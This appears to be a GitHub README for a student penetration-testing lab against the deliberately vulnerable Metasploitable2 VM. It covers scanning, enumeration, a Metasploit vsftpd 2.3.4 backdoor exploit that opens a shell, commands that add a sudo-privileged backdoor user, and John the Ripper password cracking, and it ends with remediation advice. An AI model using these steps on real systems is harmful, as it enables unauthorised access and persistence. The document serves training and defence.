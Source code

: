 # 🛡️ Penetration Testing and Remediation on a Target System

# 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation.

# 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |

# 🚀 TASK PERFORMED –
# 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.

Command:

nmap -sS -sV -T4 -Pn 192.168.56.101

Expected Output:

|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|

Open Services Analysis:

FTP (21): Unauthenticated access or vulnerable versions.

SSH (22): Brute-force potential.

# 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.

Command:

nikto -h http://192.168.56.101

Expected Output:

+ Server: Apache/2.2.8 (Ubuntu)
  
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  
# 🔐 Hidden Services Example:
phpinfo.php: Often left during development.

/test/ or /backup/ folders may contain credentials or outdated code.

# 🛠️ Extra Tool:
dirb http://192.168.56.101

# 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.

Command (Samba Enumeration):

enum4linux -a 192.168.56.101

Expected Output:

Users: admin, user1, guest

Shares: IPC$, ADMIN$, Public, tmp

Machine Name: METASPLOITABLE

# 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor

msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.56.101

run

Expected Output:

Backdoor service has been spawned.

Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)

# 👤 Task 5: Creating A Privileged User
Command inside Shell:

useradd -m hacker

echo 'hacker:hacked123' | chpasswd

usermod -aG sudo hacker

Expected Output:

uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)

# 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)

# 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |

# 📚 Conclusion
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.

# ⚠️ Disclaimer
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
